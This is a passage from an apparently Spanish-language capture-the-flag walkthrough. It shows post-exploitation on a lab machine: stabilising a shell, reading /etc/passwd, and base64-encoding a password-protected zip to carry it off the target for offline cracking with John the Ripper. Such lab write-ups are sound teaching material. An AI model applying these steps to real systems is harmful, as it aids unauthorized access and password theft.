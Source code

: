 ```
$ whoami
pylon
$ 
```
por lo que escribiremos "script /dev/null -c bash" para tener un prompt mas "normal":
```
$ script /dev/null -c bash
Script started, output log file is '/dev/null'.

pylon@8ddb09914e31:/var/www/html$
```
Si hacemos un "cat /etc/passwd" vemos entre otra informacion, que hay un usuario que se llama "pinguino", por lo que buscaremos alguna forma de acceder a ese usuario.

Para ello, iremos buscando por los directorios de nuestro actual usuario "pylon" para ver si hay alguna pista.

Buscando y buscando, finalmente encontramos el archivo "secretitotraviesito.zip" en el directorio "/home/pylon":
```
pylon@8ddb09914e31:/$ cd home

pylon@8ddb09914e31:/home$ ls
pinguino  pylon

pylon@8ddb09914e31:/home$ cd pinguino
bash: cd: pinguino/: Permission denied

pylon@8ddb09914e31:/home$ cd pylon

pylon@8ddb09914e31:~$ ls
secretitotraviesito.zip

pylon@8ddb09914e31:~$ 
```
Pues nada, vamos a extraerlo:
```
pylon@8ddb09914e31:~$ unzip secretitotraviesito.zip 
Archive:  secretitotraviesito.zip
[secretitotraviesito.zip] notitachingona.txt password:
```
Pero como se puede ver, necesitamos una contraseña.

Ahora hay que intentar pasar el archivo a nuestro maquina atacante para poder descifrar la clave con "JOHN THE RIPPER" en local ya que no podemos montar un servidor python en la maquina victima, ni tenemos ssh, ftp ni nada.. por lo que la mejor forma es mediante "hash" en base64.

Para ello, lo primero que haremos sera sacar el archivo a otro diferente, y codificado en formato base64 como hemos dicho antes:
```
bash64 secretitotraviesito.zip > pass.zip.b64
```
Si hacemos esto, al poner luego "cat pass.zip.b64" obtenemos un "hash" tal y  como se ve a continuacion:
```
pylon@8ddb09914e31:~$ cat pass.zip.b64 

UEsDBBQACQAIAOdC7FiFVsOKIQAAABkAAAASABwAbm90aXRhY2hpbmdvbmEudHh0VVQJAAPx55Bm
8eeQZnV4CwABBOgDAAAE6AMAAJQl5oY0Dvf43JObusEOgH5BrIiUqdx+by9DgXMhrefNolBLBwiF
VsOKIQAAABkAAABQSwECHgMUAAkACADnQuxYhVbDiiEAAAAZAAAAEgAYAAAAAAABAAAApIEAAAAA
bm90aXRhY2hpbmdvbmEudHh0VVQFAAPx55BmdXgLAAEE6AMAAAToAwAAUEsFBgAAAAABAAEAWAAA
AH0AAAAAAA==
```
este "hash" lo copiaremos, EN NUESTRA maquina atacante, dentro de un archivo que crearemos con "nano" por ejemplo llamado "password.zip.b64:
```
nano password.zip.b64
```